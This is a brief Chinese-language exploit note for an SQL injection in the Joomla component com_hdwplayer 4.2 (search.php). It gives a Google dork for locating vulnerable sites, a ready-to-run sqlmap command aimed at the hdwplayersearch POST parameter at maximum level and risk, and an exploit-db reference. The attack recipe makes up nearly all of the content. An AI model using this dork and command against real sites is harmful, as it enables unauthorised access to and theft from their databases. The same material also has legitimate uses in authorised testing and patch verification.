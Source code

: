 Joomla com\_hdwplayer 4.2 - \'search.php\' sql注入
==================================================

一、漏洞简介
------------

关键字:inurl:\"index.php?option=com\_hdwplayer\"

二、漏洞影响
------------

com\_hdwplayer 4.2

三、复现过程
------------

    python ./sqlmap.py -u "http://127.0.0.1/joomla/index.php" --method=POST --random-agent --data "option=com_hdwplayer&view=search&hdwplayersearch=xxx" --level=5 --risk=3 --dbms=mysql -p hdwplayersearch

参考链接
--------

> https://www.exploit-db.com/exploits/48242
